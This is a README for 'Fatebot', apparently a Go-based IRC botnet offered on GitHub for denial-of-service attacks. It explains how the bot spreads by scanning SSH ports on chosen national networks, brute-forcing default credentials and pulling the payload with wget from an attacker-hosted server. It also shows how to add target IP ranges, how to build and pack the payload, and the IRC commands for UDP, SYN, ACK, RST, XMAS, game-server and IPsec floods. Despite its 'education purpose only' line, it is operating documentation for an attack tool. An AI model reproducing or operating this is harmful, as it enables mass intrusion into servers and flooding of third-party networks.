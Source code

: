 # Fatebot
This is my first <strong>IRC botnet</strong> for launch Denial of Service attack. Scan target are anything that run linux, open default SSH port, use default username and password. This bot are write in "Go" language. <strong>For education purpose only. Please test it in your lab, i create this for join university in the future not for attack anyone server with out any permission!!!</strong>

<br>Bozer\Bulldozer (old name is R4bin) the author of Fatebot, feel free to do anything with it. read more detail in license.</br>
<br><ins>If you have an issue please understand that some of them i can't answer because it will make me have a trouble with The cyber law.</ins></br>

<img src="assets/FateBot.png" alt="Fatebot" width="400" height="400">

# Infect Feature
The infect function of this bot is scan by default SSH port. Option about scan feature in this bot is scan on USA, CN, KR network or you can do a random scan or even you can add you own mods like russia or india isp mods, all of these it's up to you. This bot will brute-force attack to the target and use <strong>"wget"</strong> for download the payload from FTP server, so... please prepair your FTP server first it's very important for the infect process. <strong>(You can use any option any server type that can host the payload not maintionly to be an FTP server.)</strong>

# Add more network

(1) Create slice of your network.

	Example:
	
		var UK_netList = []string {
			"123.123", // 123.123.0.0/16
			"234.234", // 234.234.0.0/16
		}
	
	# since v0.6.0 will be use only 16bit of the ip range(I'm still confused about subnet mask lol).

(2) Then go down to the "ScanMode" function and add the case of your network and custom the command.
	
	Example:
		
		case modes == "-uk": //custom your command.
			b.Scanner(UK_netList, false) //just config the first argument to your network.
		
<strong>I use shodan to do a static and analysis of scanning like how many of SSH port are open on which isp/org, what is the most used OS, version and etc.</strong>

# Attack Feature
Attack feature will play around with <strong>volumetric</strong> mostly, but also have an <strong>application</strong> too.
All of the attack vectors will be <strong>random source port automatically, min and max of attack size will be 10 - 1450bytes.</strong>


<img src="assets/synflood.png" alt="synflood, dos example">

# Build Payload

	chmod +x build.sh
	./build.sh <payload>
	
	#Tip: You can download upx packer to make your payload have a smaller size. It's not help much but it's really useful.
	
	Redhat:
		yum install upx -y && upx -9 bin/<payload>
		
	Debian:
		apt install upx -y && upx -9 bin/<payload>
		
# Requirements
<ul>
	<li>IRC Server</li>
</ul>

<ul><li>IRC Backup Server <strong>(Optional)</strong></li></ul>

<ul>
	<li>IRC Client</li>
</ul>

<ul>
	<li>Payload Hosting Server</li>
</ul>

<ul>
	<li>Go Compiler</li>
</ul>

<ul>
	<li>UPX Packer <strong>(Optional)</strong></li>
</ul>

<ul>
	<li>Code\Text Editor</li>
</ul>

# IRC Commands
	
	ATTACK VECTORS:
	
		?udp <srcIP> <dstIP> <port> <size>		Just a normal UDP Flood attack.
		?syn <srcIP> <dstIP> <port> <size>		Just a normal SYN Flood attack.
		?ack <srcIP> <dstIP> <port> <size>		Just a normal ACK Flood attack.
		?fin <srcIP> <dstIP> <port> <size>		Flood TCP FIN packets to request close connection when target server are blocking a syn packet.
		?rst <srcIP> <dstIP> <port> <size>		Flood TCP RST packets to broke a TCP connection between client and target server.
		?sap <srcIP> <dstIP> <port> <size>		Flood by using TCP SYN+ACK Flags to the target server.
		?xmas <srcIP> <dstIP> <port> <size>		Flood TCP packets by using all of TCP Flags to target server.
		?vse <srcIP> <dstIP>				Flood TSource Engine Query request to the target game server that used valve source engine.
		?fms <srcIP> <dstIP>				Flood query payload to a FiveM game server(They use to host GTAV i guess. i'm only playing "Hell let loose" for now, lol).
		?ipsec <srcIP> <dstIP>				Flood payload to overwhelm system resources of VPN service and make IPSec VPN connections being affected.
	
	SCANNER:
	
		?scan <modes> <server>                  Scan SSH port on the network, Brute-Force attack to the target and install the payload by "wget".
	
			-cn		Scan on china network.
			-usa		Scan on the united state of america network.
			-kr		Scan on south korea network.
			-r		Scan with random ip.	
		
	?info				Get bot system information, for bot analysis.
	?kill				Bot self-close.
	?stopddos 			Stop ddos attacking.
	?stopscan			Stop scanning.

